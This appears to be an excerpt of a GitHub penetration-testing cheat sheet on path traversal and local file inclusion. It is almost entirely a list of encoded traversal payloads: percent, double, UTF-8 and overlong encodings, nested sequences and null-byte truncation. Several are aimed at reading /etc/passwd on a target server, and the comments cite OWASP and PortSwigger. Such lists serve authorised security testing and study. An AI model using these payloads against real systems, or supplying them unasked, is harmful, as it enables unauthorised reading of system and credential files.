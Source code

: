 
#### Traversal encoding

Remember this is a guide to ideas of how to encode LFI, encoding payloads on the fly not from here.
```php
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./

# To bypass (recursive) stripping of `.` `/` encoding
# Singular (partial) encoding 
%2e%2e/ # ../
%2e%2e%2f # ../
..%2f # ../
%2e%2e%5c # ..\
%2e%2e\ # ..\ 
..%5c #  ..\ 
%252e%252e%255c # ..\ 
..%255c # ..\
# Double encoding 
%252e%252e%252f
# UTF-8 encoding
%c0%ae%c0%ae%c0%af	
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
# Percent Encoding
# OWASP: Note that web containers perform one level of decoding on percent encoded values from forms and URLs
..%c0%af # ../
..%c0%9c # ..\
# Nested traversal sequences
..././
....//
....\/
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

# Non Standard encodins - Portswigger
..%c0%af
..%ef%bc%8f

# Required directory
/var/www/images/../../../etc/passwd

# Application expecting a file extension
# Use a null byte to effectively terminate the file path, before the required extension
../../../etc/passwd%00.png
```
